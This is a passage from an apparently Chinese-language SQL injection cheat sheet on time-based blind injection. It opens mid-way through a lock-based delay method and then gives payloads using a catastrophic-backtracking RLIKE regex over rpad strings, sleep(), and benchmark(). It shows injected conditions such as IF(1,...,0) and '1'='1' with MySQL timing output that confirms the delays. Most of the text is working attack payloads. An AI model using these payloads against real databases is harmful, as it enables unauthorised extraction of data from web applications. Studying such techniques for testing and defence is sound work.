 构造被加锁的数据

1.以客户A的身份,对资源skysec.top进行加锁 

2.等待90s，让服务器将我们下一次的查询当做客户B 

3.利用客户B去尝试对资源skysec.top进行加锁，由于资源已被加锁，导致延时 

## Rlike

正则表达式

```
concat(rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a')) RLIKE '(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+b'
```

以上代码等同于sleep(5)

 ```
mysql> select * from content where id =1 and IF(1,concat(rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a')) RLIKE '(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+b',0) and '1'='1';
Empty set (4.24 sec)

mysql> select * from content where id =1 and IF(0,concat(rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a')) RLIKE '(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+b',0) and '1'='1';
Empty set (0.00 sec)
 ```

## sleep

```
mysql> select sleep(5);
+----------+
| sleep(5) |
+----------+
|        0 |
+----------+
1 row in set (5.00 sec)
```

BENCHMARK

```
mysql> select benchmark(10000000,sha(1));
+----------------------------+
| benchmark(10000000,sha(1)) |
+----------------------------+
|                          0 |
+----------------------------+
1 row in set (2.79 sec)
```
